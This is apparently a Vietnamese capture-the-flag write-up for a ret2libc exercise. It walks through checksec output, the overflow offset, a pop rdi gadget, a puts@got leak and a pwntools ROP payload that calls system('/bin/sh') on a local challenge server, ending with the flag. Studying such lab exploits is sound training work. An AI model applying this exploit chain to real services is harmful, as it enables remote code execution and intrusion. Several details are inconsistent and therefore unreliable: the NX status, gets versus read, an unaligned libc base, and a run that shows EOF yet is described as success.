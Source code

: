 # *Challenge: ret2libc_chall*
***

- **ret2libc (return-to-libc)** là kỹ thuật lợi dụng lỗ hổng tràn bộ đệm để điều khiển luồng thực thi chương trình bằng cách gọi trực tiếp các hàm trong thư viện libc (thường là system(), exit(), và truyền tham số "/bin/sh").
- *Các chế độ bảo vệ ảnh hưởng đến ret2libc:*
 ```
| **Cơ chế bảo vệ** | **Ảnh hưởng đến ret2libc** | **Ghi chú**           |
| ----------------- | -------------------------- | --------------------- |
| NX                | ✅ HỖ TRỢ                   | Không cần shellcode   |
| Canary            | ❌ CẢN TRỞ                  | Phải leak hoặc bypass |
| PIE               | ❌ CẢN TRỞ                  | Cần leak base binary  |
| ASLR              | ❌ CẢN TRỞ                  | Cần leak libc base    |
| RELRO             | ⚠️ Không ảnh hưởng nhiều   | Không overwrite GOT   |
```
*- Với file chall:*
```sh
pwndbg> checksec
File:     /mnt/d/Documents/ISP/TASK1/4_ret2libc/ret2libc/player/ret2libc_chall
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
pwndbg>
```

- No canary -> có thể buffer overflow
- NX ko bật -> ko thể thực thi shellcode trực tiếp trên stack
- PIE: No PIE -> các địa chỉ của file là cố định
- Các chế độ bảo vệ khác không ảnh hưởng
```sh
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x400000           0x401000 r--p     1000       0 ret2libc_chall
          0x401000           0x402000 r-xp     1000    1000 ret2libc_chall
          0x402000           0x403000 r--p     1000    2000 ret2libc_chall
          0x403000           0x404000 r--p     1000    2000 ret2libc_chall
          0x404000           0x405000 rw-p     1000    3000 ret2libc_chall
    0x7ffff7dc1000     0x7ffff7dc4000 rw-p     3000       0 [anon_7ffff7dc1]
    0x7ffff7dc4000     0x7ffff7dec000 r--p    28000       0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7dec000     0x7ffff7f51000 r-xp   165000   28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f51000     0x7ffff7fa7000 r--p    56000  18d000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa7000     0x7ffff7fab000 r--p     4000  1e2000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fab000     0x7ffff7fad000 rw-p     2000  1e6000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fad000     0x7ffff7fba000 rw-p     d000       0 [anon_7ffff7fad]
    0x7ffff7fbf000     0x7ffff7fc1000 rw-p     2000       0 [anon_7ffff7fbf]
    0x7ffff7fc1000     0x7ffff7fc5000 r--p     4000       0 [vvar]
    0x7ffff7fc5000     0x7ffff7fc7000 r-xp     2000       0 [vdso]
    0x7ffff7fc7000     0x7ffff7fc8000 r--p     1000       0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc8000     0x7ffff7ff0000 r-xp    28000    1000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ff0000     0x7ffff7ffb000 r--p     b000   29000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000   34000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000   36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000       0 [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000       0 [stack]
```
- Các địa chỉ của file bin là tĩnh và các địa chỉ của hàm trong thư viện libc là động -> cần leak
**Xem pseudo code ở IDA xem, chương trình hoạt động ntn:**
- Có chỉ có 2 hàm chính init() và main():
Mô tả chương trình: Đầu tiên khởi tạo buffer buf[80] sau đó gọi hàm init để khởi tạo các bộ đệm, nhập buf bằng gets và kết thúc chương trình
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  puts("Say something: ");
  read(0, buf, 120uLL);
  return 0;
}
```
```c
void init()
{
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
}
```

* **Nhận diện ret2libc:**
- Stack có thể bị overflow do khai báo 80 mà nhập tận 120 nhưng không thực thi được shellcode trên stack (NX enabled)
- Có thư viện libc, nhưng không có cơ chế bảo vệ mạnh như PIE hoặc Canary
- Chương trình gọi gets(), scanf(), read() vào biến local
-> **Mục tiêu:** Mình phải leak đc địa chỉ của libc từ đó tạo shell và chiếm shell.

**Phân tích:**
- Đầu tiên ta tìm offset của hàm read đến ret
 ```sh
 pwndbg> cyclic -l 0x616161616161616c
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
pwndbg>
```
-> 88 byte
**Khái niệm và GOT và PLT:*
- GOT (Global Offset Table): là nơi chứa địa chỉ các hàm trong thư viện libc
- PTL (Procedure Linkege Table): là nơi thực thi những hàm bên trong GOT
* Mục tiêu của ret2libc: ta sẽ thực thi hàm system(“/bin/sh”) ở trong thư viện libc . Đầu tiên ta phải leak đc địa chỉ của libc sau đó lấy shell
***Stage 1: Leak địa chỉ libc:***
- Đầu tiên, ta tìm 1 gadget để điều khiển thanh ghi rdi:
 ```sh
 $ ROPgadget --binary ret2libc_chall | grep "pop rdi"
0x0000000000401263 : pop rdi ; ret
```
- Ta có thể thiết lập thanh ghi rdi thành put@got, sau khi ta thiết đc argument 1 của hàm puts thì ta chỉ cần thực thi nó thôi
- Sau đó cho chạy lại hàm main và đã có quyền điều khiển chương trình
 ```py
 pop_rdi = 0x0000000000401263

payload = b'a'*88 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendafter(b'something: \n', payload)
```
- Sau đó ta leak địa chỉ của libc bằng cách lấy đủ 6 byte nhận đc + 2 byte null cho đủ 8 byte của hàm u64() rồi in ra địa chỉ dưới dạng hex để kiểm tra
```py
libc_leak = u64(p.recv(6) + b'\0\0')
print("Libc leak: " + hex(libc_leak))
``` 
*-> có đc libc_leak 3 byte cuối luôn giống nhau ( lưu đây là địa chỉ libc của máy, mỗi máy khác nhau sẽ chạy 1 hệ điều hành libc khác nhau)* 
- Nhưng khi kết nối với sever, ta thấy libc_leak sẽ khác với ở local ( run sever ở folder docker)
 ```sh
 $ ./solve.py
[+] Opening connection to 127.0.0.1 on port 9993: Done
Libc leak: 0x7f35bc4c53a0
[*] Switching to interactive mode
Say something:
$
```
- Giờ ta sẽ cần tìm 1 cái libc tương tự với cái libc địa chỉ của sever bằng 1 trang web có sẵn đó là https://libc.rip/
- Ta đang địa chỉ của hàm puts nên sẽ điền puts vào symbol, còn address sẽ là địa chỉ libc_leak ta vừa leak trên sever
    ```
    Symbol name                  Address
    puts                         3a0
    ```
- Sẽ cho ra kết quả của các libc đều có 3 byte cuối là 3a0 nên ta buộc phải thử từng file libc để tìm ra đúng cái libc mà sever đang chạy thì ta gửi dữ liệu mới đúng
- Để kiểm tra ta sẽ dùng tool pwninit để patch file bin của mình với file libc vừa download về.
- Ta sẽ thử lần lượt khai thác với các file libc tải trên web về, cái nào mà khai thác được cả trên local với sever đều được thì là file đúng.
- Ta thử với file đầu tiên libc6-amd64_2.31-0ubuntu9.3_i386.so.
- Tiếp theo ta sẽ tính địa chỉ libc base ( là địa chỉ nhỏ nhất của file libc mà ta có được), ta có leak_base = địa chỉ libc_leak – địa chỉ của puts trong libc
 ```py
 libc.address = libc_leak - libc.sym['puts']
 ```
- Rồi in ra để kiểm tra
```sh
Libc Leak: 0x7fc14d2343a0
Libc base: 0x7fc14d1bc000
```
  -> như này là ok
***Stage 2: Lấy shell qua hàm system trong libc:***
- Sau khi gửi payload trước chương trình sẽ thực hiện lại hàm main, nên ta có payload mới vẫn sẽ truyền vào 88 byte rác trước sau đó ta truyền pop_rdi tìm đc trước đó để thiết lập argument1 của system().
- Do libc đã có sẵn địa chỉ /bin/sh rồi ta đã sẽ p64 vào payload luôn bằng lệnh next(libc.search(b'/bin/sh')) ( lệnh này sẽ trả về địa chỉ chuỗi chuỗi /bin/sh trong libc)
- Sau khi thiết lập được argument1 thì ta chỉ cần thực thi hàm system trong libc thôi
- Ta có script:
 ```py
 #Payload
payload = b'a'*88 + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system)
p.sendafter(b'something: \n', payload)
p.interactive()
```
- Giờ ta chạy thử solve.py xem chiếm đc shell chưa:
 
- chưa được nên ta sẽ thử file libc khác trên web
- Tương tự với các file libc khác sẽ có 1 file đúng đó là libc6-amd64_2.31-0ubuntu9.1_i386
- Ta sẽ patch lại với file binary rồi nộp thử ở local
```sh
$ python3 solve.py
[+] Starting local process '/mnt/d/Documents/ISP/TASK1/4_ret2libc/ret2libc/player/ret2libc_chall': pid 374
Libc leak: 0x7f8f4c5ec5a0
Libc base: 0x7f8f4c574200
bin_shell: 0x7f8f4c70236a
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```
  -> đã chiếm đc shell
- Giờ ta sẽ nộp lên sever với ip: 127.0.0.1 và port: 9993 để lấy cờ
```
Flag: JHT{y0u_g0t_m3_n0w}
```
 
